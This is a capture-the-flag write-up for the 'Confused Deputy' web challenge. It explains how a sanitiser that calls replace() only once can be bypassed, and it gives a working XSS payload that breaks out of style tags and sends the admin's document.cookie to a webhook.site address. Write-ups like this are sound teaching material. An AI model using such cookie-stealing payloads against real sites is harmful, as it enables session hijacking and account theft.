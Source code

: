 # The Confused Deputy

## Problem

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

http://chall.csivit.com:30256
```

## Solution

We are taken to the `/view` endpoint, which is a page that takes in input and displays a corresponding colour.

![](images/deputy1a.PNG)

The challenge description also tells us to access another endpoint `/admin`. This brings us to a page where the "admin"
will visit a page URL that we give him, and also a `color` input for the admin to submit.

![](images/deputy1b.PNG)

Immediately I thought of using reflected XSS to steal admin's cookie just like in redpwnCTF's `static-pastebin`. However
the sanitisation here would obviously be different, so we should examine the sanitisation function more in-depth via the
[source code](files/confuseddeputy/sourcecode.txt) of `/view`.

```javascript
<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>
```

The `sanitized()` function uses the `replace()` function to prevent XSS by removing angle brackets `<` or `>`. However
it's usage is flawed/improper. As per this [page](https://www.w3schools.com/jsref/jsref_replace.asp), `replace()` only
replaces the ***first instance*** of the value, meaning we can trivially bypass this sanitisation by adding a 'dummy' pair of angle brackets
`<>` to the front of our payload - our payload will be left intact.

Current `color` payload:
```
<><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img>
```


At this point, the payload still doesn't send anything to my webhook. Why is that so? After the payload is processed in 
`sanitized()`, it is wrapped up between `<style>` tags due to `dostuff()`.

![](images/deputy2.png)
(cr: thebongy)

As you can see above, the current payload bypasses the `sanitized()` but is stuck within the `<style>` tags.

For our XSS payload to execute, we need to break out of the `<style>` tags. This is simply done by adding `</style>` to 
the front and `<style>` to the back of our existing payload.

Final `color` payload:
```
<></style><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img><style>
```

At `/admin`, we submit our payload in the `color` field to admin, with the `URL` field as `http://chall.csivit.com:30256/view`,
and our webhook site should retrieve the cookie that contains the flag.

![](images/deputy_flag.PNG)

**Flag**: `csictf{cssxss}`

&nbsp;

#### References:
* https://www.w3schools.com/jsref/jsref_replace.asp
